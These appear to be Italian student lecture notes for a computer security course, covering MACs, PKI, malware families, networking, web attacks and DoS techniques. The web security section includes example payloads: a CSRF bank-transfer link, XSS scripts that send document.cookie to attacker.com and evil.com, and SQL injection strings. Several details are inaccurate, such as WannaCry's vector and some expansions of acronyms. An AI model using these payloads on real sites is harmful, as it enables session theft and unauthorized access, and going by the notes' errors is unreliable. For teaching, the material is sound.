Permette di garantire l’integrità di un messaggio e l’autenticità del mittente (Data Origin Authentication) ed è fatto inviando un messaggio speciale chiamato **MAC** (Messagge authentication code). L’algoritmo che compone il MAC (MAC function) è una speciale funzione hash che prende in input una chiave segreta (secret key) oltre al messaggio: è un unione tra crittografia ed hash. Richiede che la chiave sia condivisa a tutte le parti che devono comporre e verificare il MAC. Tuttavia non garantisce la proprietà di non repudiabilità (dato che la chiave è condivisa)

{width=500px height=263px}

Inviando il messaggio e il MAC (t), il ricevente calcola il MAC del messaggio ricevuto in chiaro e se il MAC differisce c'è stata una manomissione o un errore di trasmissione

## Certificati, CA e PKI

Certificato di chiave pubblica: è una struttura dati che associata ad un subject una chiave pubblica. È firmato da un entità esterna, la **CA** (Certification Authority): è un entità fidata che fornisce i certificati

Per sua natura un certificato non può essere compromesso

{width=500px height=200px}

Ogni certificato tra i vari campi ha anche una data di scadenza, oppure può essere terminato prima se per esempio viene persa la chiave privata e si fa richiesta. Tuttavia dal momento della richiesta alla revoca effettiva passano circa 2 ore e potrebbe verificarsi qualche attacco. L’integrità delle chiavi pubbliche è un problema, perchè non è possibile risalire al proprietario data la chiave pubblica.

Un certificato di chiave pubblica associa una chiave pubblica ad un proprietario, e contiene la firma di una terza parte: CA

{width=400px height=212px}

X.509.v3 è il terzo standard dei certificati, ha aggiunto dei campi di estensione che sono marchiati come critici o non critici. Per richiedere un certificato ad una CA bisogna passare dei controlli stretti.

*PKI (Public Key Infrastructure)*: collezione di tecnologie e processi per gestire la corrispondenza chiave pubblica-privata e il loro uso nelle applicazioni. La PKI facilità la cifratura, l’integrità dei dati e le firme digitali per l’autenticazione dell’entita e quella del mittente (data origin autentication), non repudiabilità, e firme legalmente riconosciute. La PKI viene utilizzata ad esempio nelle carte di credito: una carta è autentica se ha al suo interno la chiave private ed il certificato digitale: se si prova ad accedere fisicamente alla memoria per ottenere la chiave viene distrutta la memoria.

{width=500px height=266px}

Certificati self-signed: sono firmati dalla chiave privata corrispondente alla chiave pubblica stessa, viene permesso grazie al fatto che nei browser è presente una lista di certificati fidati (o self-signed, autofirmati)

### Tecnologia man in the middle attack (MIDM)

Problema: come fa Bob a sapere che la chiave pubblica che ha ricevuto da Alice è vera o no

Soluzione: Alice deve presentare la chiave pubblica con un certificato che afferma che quella chiave è veramente la chiave pubblica di Alice (PUK). Per essere accettata da Bob una dichiarazione deve essere firmato da un autorità conosciutà o da una o più persone di cui bob si fida

Ci sono due approcci:

- PKI e X.509 (per comunciazioni sul web)  
- PRETTY GOOD PRIVACY - GPG (piccole comunità, gratuito per non comprare i certificati)  

# (9) Malware

Un Malware (MALicious softWARE) è un software creato per avere effetti contrari al miglior interesse di uno o più utenti. I danni possono includere dati, software, hardware o compromissioni di privacy. I malware sono eseguiti senza approvazione di un utente come ad esempio tramite pishing

Nel 1988 avviene il primo attacco con exploit. Fino agli anni 2000 la maggior parte dei virus si trovava su Windows. Nei vecchi sistemi DOS fino agli anni 90 gli utenti erano amministratori di sistema di default, in unix non era così e gli utenti erano divisi tra user e superuser. Linux è di utenti più "esperti" quindi è più complicato fare eseguire virus, invece windows è usato da tutti

## Virus e Worms

- **Virus**: (prima tipologia di malware inventata). Hanno bisogno di un corpo che se li porta dietro, solitamente un eseguibile (o una chiavetta), lo infettano e possono infettare altri programmi modificandoli per includere una copia evoluta di loro stessi. Prima di infettare un file verificano che esso non sia già stato infettato. Essi hanno 4 fasi:

1) Dorme: aspetta che l’utente lo esegua
2) Propagazione: quando il malware si diffonde
3) Condizione di trigger: controlla quando la payload è eseguita
4) **Payload**: azione del malware (oltre che propagarsi), può essere benigno o maligno (cancellare file, danneggiare hardware)

- **Worm**: Hanno 3 differenze dai virus:

1) Si propagano automaticamente e contunuamente, senza interazione dell'utente
2) Si propagano tra macchine e reti, possono passare in protocolli di rete e demoni (anzichè infettare solo programmi come i virus)
3) Exploitano le vulnerabilità dei software es. buffer Overflows, mentre i virus tentano di abusare di funzionalità dei software o usare social engeneering

{width=500px height=126px}

I virus aspettano una determinata condizione dell'utente (es. si esegue a mezzanotte, si esegue se l'utente fa qualcosa) -> per rendere più difficile la detection es. virus Michelangelo si eseguiva solo la nascita di Michelangelo

**Dove si trovano i malware**

I file di testo `.txt` ad esempio sono esenti da virus, in quanto contengono solamente il testo puro. Altri tipi di file invece, come pdf Word Excel PowerPoint o la posta elettronica, sono potenzialmente soggetti a virus

Perchè? Perchè es un file pdf o Word o Exel sono fatti in due parti: parte di testo (es contenuto del pdf), e un programma che descrive come il testo deve essere visualizzato (es Word ha un linguaggio di programmazione interno che word interpreta). In quest'area posso mettere del codice per ad esempio dire a Word di eseguire quello che voglio

Si chiamano **Macrovirus** -> Perchè si propagano nella zona dei file chiamata macro

Aprire file pdf word ecc. potrebbe portare un virus, quindi bisogna portare attenzione. Sui celluari solitamente sono virus non worm

**Cosa fa un virus che infetta il PE**

Ci sono diversi metodi di attivazione, ad esempio si mette all'inizio del programma, spostando il programma stesso in basso, quindi prima si esegue il virus e poi il programma. Oppure altri si mettono in fondo al programma eseguendosi alla fine

{width=500px height=142px}

Alcuni esempi:

*Brain Virus (1986)*

Citato come il primo virus per PC, è un virus boot sector. Dato che le reti non erano diffuse, la magglior parte dei virus si passavano da un programma infettato ad un floppy disk ad altri pc dove il floppy era inserito. All'avvio, un pc IBD leggeva, dalla ROM, il codice per il suo basic input/output system (BIOS). Successivamente i primi PC iniziavano il loro processo di caricamento da un floppy se uno era presente. Dopo il BIOS, il primo codice eseguito era letto da un boot sector

*CIH o virus Chernobyl*

Trovato in Taiwan e infettante Windows 95/98/ME principalmente in asia, era molto distruttivo. È stato il primo esempio di software che danneggiava l'hardware. Sovrascriveva settori critici delle partizioni e fece molti danni

## Difficoltà di rilevazione dei malware

È stato provato che non può esistere un programma che può rilevare se un altro programma è un virus. Supponiamo si avere un programma rilevatore V che dato un qualsiasi programma P può ritornare TRUE o FALSE result(P) rispondendo correttamente a "P è un virus?"

Usando il tuo programma V, posso costruire un altro programma P

programma P:
```
if V(P)
  then exit
else
  infect-a-new-target
```

Se quindi eseguiamo V su P, succedono solo due casi

- Se V(P) è vero, si comporta come se non lo fosse
- Se V(P) è falso, si comporta come virus

Quindi un programma dichiarato come non virus può essere un virus e uno dichiarato come sicuro è un virus -> Impossibile

Non si può quindi essere sicuri, ma si possono fare delle approssimazioni per cercare di prevenire i virus

I rischi possono essere ridotti con:

- **Code-Signing**: i programmatori oltre a rilasciare il codice riasciano una firma digitale, il sistema quando provo ad eseguire il processo verifica la firma prima di eseguirlo o installare aggiornamenti

Negli anni il code-Signing è stato raggirato

- **Anti-virus**: funzionano come sistemi di prevention e intrusion detection

Prevention -> prima che il malware sia eseguito  
Detection -> il malware è partito

**Signatures**

Metodo **DenyList**: se un programma ha un virus, non lo avvio.I malware hanno una sequenza di bit (tipo DNA) che li identifica univocamente. Gli antivirus sono testati per rilevare le signatures dei virus evitando di flaggare come virus programmi che non lo sono

Metodo **AllowList** usato dai militari: uso solo i programmi che so che non essere virus. Calcolo gli hash dei programmi cerficati, e li salvo in un posto sicuro. Prima di eseguirli calcolo gli hash dei programmi e verifico che corrispondano

## Virus Automodificanti

I costruttori di virus quindi hanno cercato di creare virus che non avevano elementi riconoscibili, pur essendo tutti uguali

**Encrypted virus**

Formati da due pezzi:

- Payload (atività del virus, cifrato)
- Encryption/Decription

Enc/Dec crea una chiave casuale con cui cifra il codice.

In loop:

  - Viene eseguito, parte Enc/Dec, virus cifrato con una chiave k, il virus si diffonde
  - Viene creata una nuova chiave k

Vulnerabilità: la parte di Enc/Dec è in chiaro ed è sempre uguale, quindi li hanno fermati in questo modo

**Virus Polimorfi**: cambiano anche la chiave di encryption e decription, loro stesse si cambiano

Non sono rilevabili: ha richiesto un salto di qualità nella rilevazione. Non possono essere prevenuti, ma solo rilevati e "curati": Detection

Gli sviluppatori hanno pensato di utilizzare le VM: quando ho un programma nuovo, lo eseguo su una macchina virtuale e simulo la sua esecuzione. Gli antivirus hanno delle macchine virtuali per vedere se hanno signatures

Controrisposta: hanno creato dei malware che dopo ogni esecuzione si automodifica (come prima facevano Enc/Dec per non essere rilevati, ma a tutto il virus) detti **Virus Metamorfi**: sono uno diverso dall'altro, non posso più usare le signatures

Quindi vado a cercare i *behavioural signatures* all'interno della macchina virtuale, e vado a cercare pattern di comportamento anzichè pattern di codice (es. elenco di SYSCALL, il virus indipendentemente da come è scritto farà x cose, se le fa viene bloccato)

Ora non si parla più di Antivirus ma di "Endpoint Detection and Recovery", **EDR**

Si cerca di fare **Reverse Engineering**: cercare da un eseguibile di ottenere il suo sorgente, è una skill molto importante nell'industria degli antivirus

I Virus Metamorfi si sono evoluti per capire se sono in esecuzione in una macchina virtuale o in una macchina reale, e quindi se si trovano in una macchina virtuale rimangono innocui. Vengono utilizzate tecniche di offuscamento o funzioni inutili inserite nel codice per confondere, cifrano pezzi nascondendo chiavi: tutto per evitare che i virus vengano reversati da chi prova a combatterli

{width=500px height=182px}

## Altri tipi di Virus

**Trojan**

Nascondo il virus all'interno di programmi utili: es. app a pagamento messe a disposizione gratuitamente. Alcuni Trojain sono installati come aggiornamenti finti es. fanno finta di essere aggiornamenti critici di Java o Adobe

**Backdoors**

È un modo di accedere ad un dispositivo bypassando i normali punti di accesso per ottenere il controllo. Permette di accedere ad una macchina attivando una porta di rete dove un'attaccante può connettersi

**Rootkits**

Sono una serie di componenti software che sono in grado di modificare funzioni di sistema operativo es. nasconde i file di installazione, sto installando un programma e il rootkit nasconde i file che vengono effettivamente installati nascondendomi i virus. Sono in grado di cambiare i driver della tastiera per salvare i risultati su un file ad esempio. Sono molto pericolosi. Per evitarli è buona norma utilizzare l'account amministratore solo quando necessario

{width=500px height=270px}

Fanno *Syscall hijacking* della tabella delle systemcall: faccio eseguire le SYSTEMCALL che voglio. I rootkits sono diffusi soprattutto tramite i drivers

*Loadable Kernel Module*: il sistema non parte con tutto, parte con le compoenti fondamentali e carica le parti necessarie

**Ransomware**

Ransom = riscatto, virus pensati per ottenere un riscatto. I ransomware sono una conseguenza delle criptovalute come i bitcoin perchè permettono di rimanere anonimi: es. carica tot BTC su questo indirizzo

Esempio famoso: **WannaCry**

{width=500px height=201px}

Uno dei più famosi ransomware, sfrutta una vulnerabilità di Microsoft Sql. Genera una coppia di chiave privata e pubblica per ogni file di ogni host. Utilizza AES per cifrare il contenuto del file

**File Lockers**

Il file system viene cifrato e viene chiesto un pagamento per decriptarlo

**Auto-rooter**

Scansiona un target per cercare una vulnerabilità e ottenere la shell root o installare un rootkit (solitamente con una backdoor)

**Botnets e Zombies**

Le Botnets sono reti di sistemi compromessi. I bot o zombie sono stati compromessi e possono essere utilizzati per inviare ad esempio mail o messaggi, oppure attacchi DOS. Spesso queste reti sono affittate per fare attacchi o mining di criptovalute

Le Botnets hanno un singolo punto di fallimento: il nodo centrale (o il centro di comunicazione centrale). Se trovato, può essere spento.
Spesso infatti i nodi centrali cambiano spesso, per evitare di essere localizzati. Una sola botnet nella storia è stata neutralizzata: sono incredibilmente difficili da trovare e disabilitare

**Logic Bomb**

Sequenza di istruzioni che si attiva se sono eseguite una serie di condizioni es. vendi un programma, se non vieni pagato blocchi il programma, oppure un impiegato licenziato quando si logga elimina il suo account

## Classificazione dei virus

I virus sono solitamente classificati per i danni che fanno, altrimenti non c'è uno standard per la loro classificazione (quello che per alcuni è un trojan per altri è un ransomware). Anche il *Social Engineering* è un problema anche se non è direttamente un virus: è una tecnica usata per ottenere accesso a dati o installare malware sfruttando la vulnerabilità fisica delle persone es. convincere qualcuno ad installare un programma convincendolo sia altro

{width=500px height=205px}

# (10) La Rete

(appunti approssimativi in quanto rindondanti con Reti dei Calcolatori)

**Internet**: è una rete di reti locali che permette la comunicazione tra di esse

**RETE**: serve a far scambiare dei dati tra dei PC  
- Può essere packet switching o circuit-switching (caratteristica HW)  
- È formata da host, router e canali

Gli host hanno i dati e il canale di comunicazione (etere / inizialmente filo)

**Router**: Dispositivi che raccolgono e smistano il traffico, sono dei server con HW e SO dedicato e specializzati nello smistamento del traffico. Servono solo per comunicare all’esterno della rete locale. Il monopolio lo ha Cisco che fornisce SO e HW per router.

Esistono due tipi di reti:

- **Reti locali (LAN)**: sono veloci (Gbps) e solitamente formate da massimo 500 PC
- **Wide area network (WAN)**: interconnessione di più LAN

Nelle LAN esistono le *HUB* (che inviano un segnale broadcast e quindi a tutti) e *switch* (point-to-point, invia solo alla destinazione). Si predilige l’uso dello switch. L’interfaccia di rete permette la comunicazione tramite una porta fisica

**VPN**: si sfrutta l’internet cifrando i dati della comunicazione

Poichè due host comunichino è necessario che essi adottino gli stessi protocolli (es: TCP, UDP)

**Commutazione a circuito**: un circuito che rimane occupato e dedicato alla comunicazione per la sua interezza, il traffico scorre sequenzialmente ed è meno soggetta ad errori.

**Packet switching**: (o commutazione di pacchetto) la comunicaizone viene suddivisa in pacchetti più piccoli, ogni pacchetto segue la strada più opportuna in quel momento e poi arrivati nel buffer del destinatario vengono riordinati e riassemblati. Il Packet switching è meno affidabile ma più performante e sfrutta meglio la rete

Un Host ha un indirizzo in una LAN: il MAC ADDRESS (48 bit - 6 byte) identifica univocamente un dispositivo di rete e teoricamente non è modificabile. Si rappresentano come 6 coppie esadecimali `ab-cd-ef-12-fa-bc`. I primi 3 byte itentificano il produttore della scheda di rete

**Device**: dispositivo HW che espone un’interfaccia. Ogni device ha un driver, programma per gestire l’interfaccia.

L'Indirizzo IPv4 è in grado di indirizzare 4 Milioni di device ed è formato da 32 bit, invece IPv6 ha indirizzi a 128 bit

## TCP

Diversi tipi di protocolli di rete sono:

- **Protocolli connection oriented**: permettono di fare in modo che una rete packet-switching si comporti come una circuit-switching (commutazione di circuito)
- **Protocollo connection-less (UDP)** è molto più veloce, usato per connessioni realtime o VOIP. Se un pacchetto viene perso si prova a ricostruirlo
- **Protocollo connection-oriented (TCP)** di livello 4 bidirezionale (fa i controlli dei pacchetti che mancano). La connessione viene stabilita con Three Way handshake:

1. SIN = 1, seq = x: il cient chied al server di aprire una connessione. Insieme al SIN è anche inviato un seq (numero iniziale casuale) per evitare gli attacchi di TCP Hijacking  
2. SIN + ACK, seq = y, ACK = x + 1: il server conferma di aver ricevuto il SIN del client, conferma di voler effettuare una connessione ed invia il suo numero  
3. ACK, ack = y + 1: ora entrambi hanno il sequence number dell'altro, la connessione è stabilita

La comunicazione alla fine di interrompe con FIN o RST (reset). TCP cerca una porta libera per usare la connessione. Alla fine si interrompe la comunicazione con FIN o in qualsiasi momento con RST (Reset). Lo strato di applicazione genera il dato.

*Strato di trasporto*: Il dato viene passato al protocollo sottostante che decide come spacchettarlo, e scegliere fra tcp o udp. Viene passato a internet per inviare il pacchetto. Lo strato di Rete si occupa di far passare il pacchetto nella rete LAN 

Livello ISO/OSI.

I pacchetti IP hanno dimensione massima 65536 (2^16) byte. Hanno vari campi nell’Header, tra cui indirizzo ip e porte destinatario e mandante e poi il Payload. Un messaggio più grande viene spezzato in più pacchetti. Ogni protocollo ha il suo formato di pacchetti. Meccanismo di Encapsulation: Ogni pacchetto ha un Header, Payload e Footer, dove l’header identifica il protocollo usato dal pacchetto

**Incapsulamento**: Un pacchetto viene incapusulato dal livello 3 per poterlo trasmetterlo tramite la rete. Un pacchetto TCP è il payload del pacchetto IP. Il payload di un pacchetto internet è un pacchetto Internet

**ARP Request**: si chiede se nella rete locale qualcuno ha un determinato indirizzo IP. Se il ruoter vede che l’host non è nella rete locale, invia a chi ha mandato la ARP request l’indirizzo IP del router che poi si occuperà di mandarlo al reale destinatario su internet (o in un altra rete)

**DNS**: traduce un nome in indirizzo IP.

**Porta**: numero che identifica un servizio in una macchina. Ci sono in totale 2^16 porte TCP e 2^16 porte UDP. I valori dallo 0 al 1023 sono riservati e vengono assegnati da un organo di regolazione della rete internet. A livello SW una connessione è una socket identificata da numero `<ip:porta>`

**Protocollo ICMP**: usato per il comando ping. Si manda un pacchetto icmp e si aspetta una risposta, per sapere se è attivo o no. Protocolo usato da IP per fare una serie di verifiche, e sfruttato per fare degli attacchi. Gli attacchi di rete sfruttano degli errori di progettazione nei protocolli di rete.

# (11) Web Security

System security: sfruttare bug presenti nel sistema  
Network Security: sicurezza di rete

**Web Security**: sicurezza dell'applicativo web. Il mondo web è indipendente dal sistema operativo: un attacco web su Windows sarà generalmente uguale ad uno su Linux

## Come funziona il Web

### Il DNS

**DNS** (Domain Name System): traduzione di indirizzi di rete logici in indirizzi IP (es. www.youtube.com è logico, il DNS lo trasforma in IP). Il DNS introduce il concetto di URL  
**URL** (Unified Resource Locator): Identifica la posizione di files e pagine. È formato da un sottoinsieme di URI  
**URI** (Uniform Resource Identifier): Identifica una risorsa

**TLDs** : formati da formato da gTLD e ccTLD

**gTLD** (Global Top Level Domain): come `.com` `.org`  
**ccTLD** (CountyCode TLD): codici delle nazioni es. `.uk` `.at` `.it`

Il DNS funziona ad albero: ROOT contiene gli indirizzi dei top level demains (es. `.com`) che a loro volta contengonono i siti. Esistono 13 Root Servers nel mondo: sono l'infrastruttura più critica di internet. Oggi ci sono anche ulteriori copie (per velocizzare le ricerche)

**FQDN** (Fully Qualified Domain Name): dominio univoco, es. di.unimi.it grazie al DNS si traduce (risolve) un FQDN in un indirizzo IP

{width=500px height=181px}

Funzionamento:

1) Il browser manda una richiesta al DNS locale
2) Il Local DNS prova a risolvere l’indirizzo:
    1) Se lo trova, risponde
    2) Se non lo trova, chiede al provider:
        1) Se il provider non lo trova chiede al TLD e poi root.

### HTML

L'**HTML** (Hypertexr Markup Language) è un linguaggio di markup per impaginare testo. I documenti HTML possono contenere linguaggi di programmazione scritti con dei *linguaggi di scripting* (tipicamente JS). Il codice è incluso nei tag

`<script>Esempio di codice</script>`

E può essere eseguito dopo determinate azioni (es click del mouse o eventi nella pagina)

Web Forms: contiene dei campi di input, utilizzato per inviare dei dati ad uno specifico URL con una richiesta HTTP. Posso inviare i dati in due modi:

**GET**: per chiamate di ricerca, non permette di avere dati nel body della richiesta  
**POST**: permette di inviare dati (nel body della richiesta) in modo nascosto

### HTTP

**HTTP** (HyperText Transfer Protocol): protocollo principale di trasferimento dati tra web browser e server

Inizialmente il client del browser stabilisce una connessione TCP (HTTP Request) con il server (TCP scambia una serie di pacchetti con vari flag e campi ack)

Il client può inviare una GET e una POST

{width=500px height=300px}

Ogni hyperlink in una pagina HTML è una connessione TCP.

**HTTP Proxy**

**HTTP Proxy** è un server intermediato tra un client e un endpoint server, che fa da intermediario nell’accesso alle risorse del server e inoltra le risposte. Il proxy tiene traccia dei log delle richieste, ispeziona i contenuti e svolge le funzioni di firewall. Ha un sistema di caching per velocizzare la risposta e ridurre il traffico verso i server chiamato Prox6

{width=500px height=222px}

### DOM (Document Object Method)

**DOM** (Document Object Method): documento rappresentato da tutti i documenti che contiene gerarchicamente nella finestra che si sta visitando.

*Frame*: documenti in una finestra o una parte di finestra, rappresentante un windows object

Si accede ai documenti della pagina tramite `windows.document`. Il DOM fornisce delle API (interfacce) a javascript per i contenuti della pagina, permettendo la modifica del contenuto e proprietà degli oggetti DOM

## Cookie

HTTP è un protocollo *stateless* -> le successive richieste HTTP non sono legate a quelle precedenti, e questo non è efficiente con i siti che richiedono più connessioni (es. Amazon 1 ti coleghi al sito 2 vuoi pagare)

Risolto con I **Cookie**: amazon manda un numero a te di un codice (cookie) da usare. È un meccanismo di autenticazione e identificazione. Ogni volta che il browser visita un server, viene inviato il cookie della sessione, per ripristinare quella eventualmente già esistente. I Cookie possono essere cookie di sessione, o persistenti

{width=500px height=42px}

I cookie hanno diversi attributi:

- Max-Age: data di scadenza
- Domain: specifica sotto quali domini è valido
- Http Only: specifica che quel cookie può essere usato solo per connessione http (non può essere acceduto da js) (ES: PHPSESSID dovrebbe essere Http-Only).
- Secure: se specificato, questo cookie va mandato solo su connessioni sicure HTTPS e non HTTP.
- Path: specifica a quali pagina va inviato il cookie

JS accede ai cookie tramite domain. I cookie vengono usati per la profilazione di un utente. Il sito web memorizza associato al cookie gli URL visitati e moltre altre informazioni. I cookie vengono usati per mantenere l’ID della sessione per evitare di chiedere il login ogni volta, quindi cè il rischio di furto di cookie. I cookie devono essere protetti a livello server. Nel browser sono delle stringhe di caratteri cifrate.

## SOP

**SOP** (Same Origin Policy) procedura di isolamento per fare in modo che una pagina eviti di sbiriciare e guardare i comportamenti di altre pagine: una pagina che arriva da un domininio può modificare le informazioni di quella pagina, ma non di altre pagine

DOM SOP

- Ad un documento HTML viene assegnata un’origine, che lo ha recuperato
- Script e immagini sono assegnati all’origine del documento che le ha fatte caricare
- Script (JS) accedono a contenuti che hanno la stessa *origin*

Origin Triplet: <scheme,host,port>

host è il FQDM, scheme è il protocollo di recupero del documento. Se la SOP è troppo rigida, essa impedisce lo scambio di componenti nella pagina, l’esecuzione di script o la condivisione dello spazio di visualizzazione.

## CSRF (Cross-site Reques Forgery attack)

Usare i cookie come meccanismo di autenticazione ha portato a molte vulnerabilità, come il **CSRF** (Cross-site Reques Forgery attack). Si può eseguire in due modi diversi:

1) La vittima clicca su un link inviato dall’attaccante (GET), il link farà redirect per effettuare operazioni a nome della vittima per l’attaccante
2) Richiesta nascosta (in POST) invisibile all'utente

Si può effettuare se il browser della vittima è loggato su un sito. Consiste nel richiedere al browser della vittima il cookie di sessione, impersonificando il reale server

{width=500px height=316px}

Es. cliccando su un sito, nella pagina inserisco

`<a href="http://mybank.com/fundxfer.php?to=Charlie&value=2500">`

Se l'utente è loggato nella sua banca, mi trasferisco i soldi

Ormai CSFR è obsoleto, la contromisura è l’attributo `SameSite` dei cookie che istruisce il browser su quando inviare dei cookie ad una terza parte. Questi cookie non sono generati dal browser, ma da terze parti. Può avere 3 parametri: Strict, Lax, None

## XSS

È un problema derivato da errori di programmazione e consente ad un attaccante di far eseguire al browser di una vittima del codice js maligno (es. rubare i cookie di sessione) in una pagina HTML

Ci sono 2 tipologie di XSS

- Persistent (Stored) XSS: dove la stringa maligna si origina nel database del sito
- Reflected XSS: dove la stringa maligna si orgina dalla richiesta della vittima. Un'applicazione riceve dati in una richiesta HTTP e li include nella risposta immediata in modo non sicuro

{width=500px height=268px}

### Reflected XSS

3 attori:
- Un sito web
- Una Vittima
- Un Attaccante

es. Diciamo che vogliamo rubare i cookie salvati nel browser web relativo alla navigazione sul sito www.example.com. Non possiamo aggirare SOP che permette solo l'esecuzione del comando document.cookie() eseguito da uno script che è contenuto in una pagina che il browser carica da www.example.com

Mandare ad un server che rifletta l'input

Devo forzare l'utente a cliccare su un sito fatto ad esempio come

`https://www.vulnerable.com/search?query=<script>windows.location.href='http://www.attacker.com/steal.pop?cookie='+document.cookie;</script>`

window.location.href è una proprietà di window.location 

steal.php

```php
<?php

$cookie = $_get['cookie']

>
```

### Stored XSS

A differenza del riflected XSS, dove lo script malevolo è parte di un singolo ciclo di request/response, lo stored XSS avviene quando il payload di un attaccante è salvato su un server. Bisogna mettere lo script in una posizione che l’utente potrebbe scaricare. Rischi dell’attacco XSS: furto di dati (password, cookie) etc. e si può riscrivere parti della pagina (tutto il DOM)

Versione 0 click

Metto il seguente commento su un forum:

Great article! `<script>fetch('http://evil.com/steal?c='document.cookie)</script>`

Se io apro nel mio browser la seguente pagina e carico il commento, mi vengono rubati i cookie

Perchè è un errore di programmazione? Perchè non viene fatto il controllo di sanitizzazione dell'input, viene eseguito uno script in input

Per evitare ciò ci sono delle librerie che fanno la sanitizzazione degli input, oppure posso usare *HTTP Only cookies*: cookies che possono essere usati solo tramite HTTP e non javascript

Client-side invece posso usare un WAF (Application Level Firewall). Funziona solo con HTTP e non HTTPS perchè nel secondo caso i dati sono tutti criptati

## SQL Injection

È un attacco basato sullo stesso principio, ovvio la mancata sanitizzazione degli input. La vittima di questo attacco è un DB sql, che riceve le query non autorizzate da un form html. Si inseriscono delle condizioni sempre vere per accedere a dati normalmente protetti

{width=500px height=95px}

es. inserisco:

```sql
SELECT * FROM pswdtab WHERE username='root' -- AND
```

Con -- inizio un commento, quindi posso accedere facilmente 

Oppure un altro modo è usare

```sql
'OR 1=1 --
```

Dato che 1 è sempre uguale a 1, posso accedere indipendentemente da cosa ci sia dopo. Il problema anche qui è della applicazione che riceve l'input e non lo controlla: allo stesso modo infatti esistono librerie per la sanitizzazione degli input SQL, per rimuovere ad esempio i caratteri terminatori della stringa

# (12) Network Security

**Tipi di attacchi**

- **Attacchi passivi**: difficili da rilevare e prevenire (non hanno un effetto visibile o constatabile sul sistema) es: intercettazione del traffico
- **Attacchi attivi**: compromettono la funzionalità del sistema es: Messagge replay, Message Modification, DDOS. Mon si possono prevenire, possono solo essere fermati quando stanno avvenendo

## Spoofing

Coinsiste nel modificare l'indirizzo di origine di un pacchetto, per assumere l'identità di un server, un router, un host o un utente fidato e così facendo bypassare autenticazioni, intercettare il traffico o lanciare attacchi che sembrano provenire da fonti fidate. Lo spoofing non è necessariamente un attacco, ma è la base di molti attacchi

Si può fare Spoofing di moltissime cose come gli IP, l'origine di una mail, una posizione GPS ecc

**Attacchi Blind** (IP Spoofing): non vedono le risposte. Ovviamente fornendo un IP modificato come origine, se il pacchetto si aspetta una risposta la risposta andrà all'ip sorgente es. Utilizzo l'ip B per mandare una richiesta all'IP C, ma modifico la mia origine utilizzando l'IP spoofato A per fare credere a C di stare parlando con A. Tuttavia così facendo C invierà la risposta al vero A, e non a B

### Il canale di comunicazioni

Intercettare i dati che passano, si chiama con molti nomi: eavesdrop, wiretap, sniff. Farlo dipende dal canale di comunicazione, ad esempio su una LAN con un HUB è molto semplice lo sniffing perchè l’hub invia broadcast

Si usano dei programmi chiamati **packet sniffers**: In una rete locale LAN i pacchetti arrivano a tutti, ma se io non sono il destinatario il pacchetto è eliminato. Questo comportamento può essere eliminato per poter leggere tutti i pacchetti. I Packet sniffers sono passivi e non rilevabili, e sono utilizzati sia per difendersi che attaccare. Ora i pacchetti sono cifrati e quindi molto più sicuri ma una volta non lo erano. La fibra ottica è più sicura del rame da quel punto di vista. In TCP e UDP il traffico è in chiaro, per la comunicazione cifrata serve TLS

Il packet sniffer può essere sia SQ che HW: alcuni esempi sono TCPDUMP, Nmap, xprobe2 e Wireshark

**Probes**: inviato ad un indirizzo, identifica gli host e le port dei servizi attivi. Una porta può essere aperta (daemon in attesa), chiusa (nessun servizio offerto) o blocked (negato dal controllo dell’accesso perimetrale). Avendo uno sniffer di rete difensivo (eseguito con privilegi di root) aumento la superficie di attacco

## DOS o DDOS

Un attacco **DOS** (Denial Of Service) Impedisce il funzionamento di un servizio, rendendolo inutilizzabile, degradando le prestazioni. Viene attuato facendo 

**Flooding**: inoltrare un grande numero di richieste ad un servizio. Non è solo un attacco di Rete, es. saturando il fileSystem di un firewall, permette di far passare tutto il flusso.

Non è solo un attacco di Rete, es. saturando il fileSystem di un firewall permette di far passare tutto il flusso.

Gli attacchi DOS distribuiti sono chiamati **DDOS** (Distributed Denial Of Service): di solito sono effettuati con botnet (reti di macchine infettate). Non è solo bloccare le risorse di rete: i DDOS sono fatti per motivi ideologici, competitivi, finanziari e commerciali.

{width=500px height=212px}

Gli attacchi DOS e DDOS non sono attacchi particolarmente pesanti ed una volta che ci si accorge della loro presenza sono facilmente arginabili

Esistono diversi tipi di attacchi DDOS:
- Ping of Death  
- Smurf  
- Land  
- Syn Flood  

### Ping of Death

È un ping (ICMP echo request) che manda un pacchetto con lunghezza superiore a 65535 byte, facendo crashare la funzione di reassembly. Si tratta di una vulnerabilità del protocollo ICMP, sfruttando un errore di programmazione il pacchetto ICMP va oltre il limite di dimensioni di 2^16 byte appositamente, facendo un buffer overflow nel ricevente che andava a sovrascrivere codice di sistema

{width=500px height=281px}

### Smurf

Sfrutta le vulnerabilità della rete facendo fludding. Consiste nel mandare un pacchetto di ping (ICMP) con source address un indirizzo spoofed e destinazione l’indirizzo di broadcast della rete “vittima”. Il Ping si propaga broadcast sulla rete e ogni host inviera una risposta ICMP riempiendo la banda della rete. Si possono usare anche altri protocolli oltre ad ICMP per questo tipo di attacco sempre con dst addr = broadcast

{width=500px height=261px}


### Land Attack

Si fa Spoofing del mittente, e si invia un pacchetto con indirizzo della vittima sia come mittente sia come destinatario, così da andare in loop perchè il pacchetto di SYN = 1 e ACK = 1 vengono reinterpretate come nuove richieste esterne,  permettendo di accettare un'altra connessione. Ogni pacchetto crea un entry nella tabella delle connessioni fino a saturarla. Ora non è più fattibile perchè se la porta ip src e dst sono uguali la connessione viene chiusa o sono scartati i pacchetti.

{width=500px height=261px}

### Syn Flood

È un tipo di attaco DOS che consiste nell’aprire molte connessioni TCP con la vittima. Sfrutta una criticità nel three way handshake di TCP: si riempie la tabella delle connessioni TCP della vittima. L’attaccante invia molti pacchetti di richiesta di connessione con SYN = 1, con spoofing di ip falsi, così che non riceverà un ack e così che la vittima resterà in attesa di una risposta e rimanderà pacchetti con SYN=1 e ACK=1 fino allo scadere del RTO consumando tempo di CPU. E necessario che gli indirizzi spoofati non siano reali, altrimenti risponderanno con RST=1 di fatto cancellando quella entry nella tabella della vittima.

{width=500px height=272px}

## Ingress Filtering

L'Ingress Filtering è un insieme di meccanismi di sicurezza di rete per prevenire lo spoofing degli indirizzi IP e gli attacchi DOS correlati. È utilizzato dai provider sui router per accettare solo pacchetti con indirizzi sorgente legittimi proveniente dalla rete del client

{width=500px height=179px}

## DNS Pharming

Attacco al Risolutore di indirizzi (DNS) che renderizza a siti non affidabili.

Porta DNS: 53

Il Pharming attacck “avvelena” il mapping nome simbolico e ip address, si tratta di anticipare la risposta di un server dns reale fingendosi un server dns. Questa vulnerabilità esiste perchè il DNS non usa la crittografia

GTLD (Global Top Level Domain): risponde con gli indirizzi dei NS (Name Server) che dovrebbero sapere come gestire una richiesta di traduzione. Si contattano più server finchè non arriva la risposta.

